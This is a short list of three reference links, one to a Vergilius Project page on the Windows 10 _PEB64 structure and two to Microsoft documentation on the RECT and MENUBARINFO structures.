- [https://www.vergiliusproject.com/kernels/x64/windows-10/1809/_PEB64](https://www.vergiliusproject.com/kernels/x64/windows-10/1809/_PEB64)
- [https://docs.microsoft.com/en-us/windows/win32/api/windef/ns-windef-rect](https://docs.microsoft.com/en-us/windows/win32/api/windef/ns-windef-rect)
- [https://docs.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-menubarinfo](https://docs.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-menubarinfo)
